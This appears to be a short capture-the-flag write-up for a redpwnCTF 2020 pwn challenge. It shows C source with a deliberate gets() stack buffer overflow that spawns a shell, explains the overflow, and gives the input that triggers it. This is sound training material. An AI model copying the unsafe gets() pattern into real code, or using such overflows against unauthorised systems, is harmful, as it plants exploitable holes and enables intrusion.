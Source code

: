 ### Description
>Can you fill up the coffers? We even managed to find the source for you.
>
>nc 2020.redpwnc.tf 31199
### Solution
We get an executable and its source file:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/zsh");
  }
}
```

It's clear that we have an buffer overflow on `name` and by overflowing it we will overwrite the `code` variable, and that will get us a shell.
Payload: `AAAABBBBCCCCDDDDEEEEFFFFG`
